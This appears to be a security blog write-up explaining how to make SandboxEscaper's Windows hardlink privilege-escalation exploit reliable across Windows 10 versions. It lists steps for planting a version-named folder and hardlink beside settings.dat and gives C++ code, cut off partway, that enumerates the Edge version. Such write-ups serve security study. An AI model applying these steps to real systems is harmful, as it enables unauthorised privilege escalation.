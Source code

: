 There is a problem, as you can see, the exploit will not work in all Windows 10 versions right away due to the requirement of microsoft edge version must be known and it interferes directly to the exploitation process of it. 

1. There is the need to enumerate the Microsoft Edge version.
2. Create a folder in the same spot as settings.dat is with the Microsoft Edge version in it's name.
3. Create a hardlink inside the folder mentioned above.

After some error and trial, I found out some conditions that were not explicitly told by SandboxEscaper.

4. The settings.dat hardlink still needs to be used.
5. To re-use the exploit, we need to delete the Microsoft Edge bypass folder and it's hardlink every time we run the exploit. The current solution in that README was not enough.

# Microsoft Edge version enumeration

The first step to build a reliable exploit for this bypass is to enumerate the Microsoft Edge version.

After some searches on Google, I found that there is a file which has our beloved version data.

```
C:\Windows\SystemApps\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\AppxManifest.xml
```

Open it and you will find Edge version over `<Identity>` tag.

Now, it is time for some C++ code!

This is the function I have used to get the version:

```C++
/* Convert char* to wchar_t* */
// Reference: https://stackoverflow.com/questions/8032080/how-to-convert-char-to-wchar-t
wchar_t *GetWC(const char *c)
{
	const size_t cSize = strlen(c) + 1;
	wchar_t* wc = new wchar_t[cSize];
	mbstowcs(wc, c, cSize);
	return wc;
}

/* 
Fill a buffer with WCHAR string of the current Microsoft Edge version 
Author: @_zc00l
*/
WCHAR* GetEdgeVersion()
{
	OVERLAPPED ol = { 0 };
	char ReadBuffer[BUFFERSIZE] = { 0 };
	WCHAR *EdgeConfigurationFile = L"C:\\Windows\\SystemApps\\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\\AppxManifest.xml";
	if (!FileExists(EdgeConfigurationFile))
	{
		wprintf(L"Could not determine the current edge version.\n");
		return NULL;
	}

	HANDLE hFile = CreateFile(EdgeConfigurationFile,
		GENERIC_READ,
		0,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
		NULL);
```